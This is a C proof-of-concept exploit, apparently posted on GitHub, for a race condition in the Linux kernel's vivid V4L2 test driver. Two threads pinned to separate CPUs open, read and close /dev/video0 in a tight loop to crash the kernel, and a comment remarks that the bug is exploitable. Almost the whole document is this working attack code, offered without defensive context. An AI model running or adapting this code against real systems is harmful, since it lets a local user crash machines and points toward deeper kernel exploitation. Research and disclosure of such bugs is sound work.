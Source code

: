 POC
---

    /*
     * PoC crashing the kernel using the bug in drivers/media/platform/vivid.
     * Turned out that this bug is exploitable.
     * Just for fun.
     */

    #define _GNU_SOURCE

    #include <fcntl.h>
    #include <stdio.h>
    #include <unistd.h>
    #include <stdlib.h>
    #include <sys/prctl.h>
    #include <sys/stat.h>
    #include <pthread.h>
    #include <sys/types.h>
    #include <sys/mman.h>

    #define err_exit(msg) do { perror(msg); exit(EXIT_FAILURE); } while (0)

    #define THREADS_N 2
    #define LOOP_N 10000

    unsigned char *buf = NULL;

    void *racer(void *arg)
    {
        unsigned long n = (unsigned long)arg;
        unsigned long cpu_n = n % 2;
        cpu_set_t single_cpu;
        int ret = 0;
        unsigned long loop = 0;

        CPU_ZERO(&single_cpu);
        CPU_SET(cpu_n, &single_cpu);
        ret = sched_setaffinity(0, sizeof(single_cpu), &single_cpu);
        if (ret != 0)
            err_exit("[-] sched_setaffinity for a single CPU");

        printf("[+] racer #%lu is on the start on CPU %lu\n", n, cpu_n);

        for (loop = 0; loop < LOOP_N; loop++) {
            int fd = 0;

            /* printf("  racer %lu, loop %lu\n", n, loop); */

            fd = open("/dev/video0", O_RDWR);
            if (fd < 0)
                err_exit("[-] open /dev/video0");

            read(fd, buf, 0xfffded);
            close(fd);

            usleep(n);
        }

        return NULL;
    }

    int main(void)
    {
        int ret = -1;
        cpu_set_t all_cpus;
        pthread_t th[THREADS_N] = { 0 };
        long i = 0;

        printf("[!] gonna work with /dev/video0\n");
        printf("[!] please check that:\n");
        printf("\t vivid driver is loaded\n");
        printf("\t /dev/video0 is the V4L2 capture device\n");
        printf("\t you are logged in (Ubuntu adds RW ACL for /dev/video0)\n");

        ret = sched_getaffinity(0, sizeof(all_cpus), &all_cpus);
        if (ret != 0)
            err_exit("[-] sched_getaffinity");

        if (CPU_COUNT(&all_cpus) < 2) {
            printf("[-] not enough CPUs for racing\n");
            exit(EXIT_FAILURE);
        }

        printf("[+] we have %d CPUs for racing\n", CPU_COUNT(&all_cpus));
        fflush(NULL);

        buf = mmap(NULL, 0x1000000, PROT_READ | PROT_WRITE,
                        MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (buf == MAP_FAILED)
            err_exit("[-] mmap");
        else
            printf("[+] buf for reading is mmaped at %p\n", buf);

        for (i = 0; i < THREADS_N; i++) {
            ret = pthread_create(&th[i], NULL, racer, (void *)i);
            if (ret != 0)
                err_exit("[-] pthread_create for racer");
        }

        for (i = 0; i < THREADS_N; i++) {
            ret = pthread_join(th[i], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join");
        }

        printf("[-] racing is failed, try it again\n");

        exit(EXIT_FAILURE);
    }